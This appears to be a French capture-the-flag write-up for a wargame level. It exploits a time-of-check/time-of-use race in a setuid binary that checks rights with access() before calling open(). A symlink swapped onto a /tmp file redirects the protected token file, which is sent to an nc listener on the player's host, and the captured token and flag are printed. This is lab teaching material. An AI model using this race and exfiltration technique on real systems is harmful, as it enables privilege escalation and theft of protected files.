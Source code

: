 # Level 10

Comme pour le level 8 et 9 nous avons toujours 2 fichiers, un binaire portant le nom du level et un fichier token.

Comme pour le level 8 level10 n'avons pas les droits pour lire le fichier token, mais le binaire possède un stickybit qui lui donne les droit de son owner flag10, qui est le même que l'owner du token.

Quand on décompile le binaire, on peut voir qu'il essaye de se connecter à un adresse ip passée en argument sur le port `6969` et d'écrire le fichier passé en argument sur le serveur.

Avant de se connecter, la fonction access est appellée afin de vérifier les droits de l'utilisateur réel (donc qui exécute le binaire). L'utilisateur réel level10 n'as pas les droits sur le fichier token.

Mais l'utilisation d'`access` puis `open` crée un trou de sécurité comme l'explique le man de [access](http://manpagesfr.free.fr/man/man2/access.2.html), car entre le temps de la vérification et de l'ouverture nous pouvons crée un lien symbolique d'un fichier ou quel nous n'avons pas les droits réel.

Ainsi, il est possible de donner en paramètre à lexécutable un fichier sur lequel nous avons tous les droits, afin que la fonction access retourne une réponse positive.

Ensuite, en passant l'adresse IP du vboxnet 192.168.56.1, l'executable `level10` attend une réponse ce qui nous laisse le temps de créer un lien symbolique sur le fichier passé en paramètre vers le fichier token.

Sur le serveur tty1:

```sh
~ echo "123" > /tmp/link
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 ..
[wait]
```

Sur le serveur tty2:

```sh
~ ln -fs /home/user/level10/token /tmp/link
```

Sur notre machine local:

```sh
~ nc -lv 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

Sur le serveur tty1:

```sh
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 .. Connected!
Sending file .. wrote file!
~ su flag10
Password:
Don\'t forget to launch getflag !
~ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

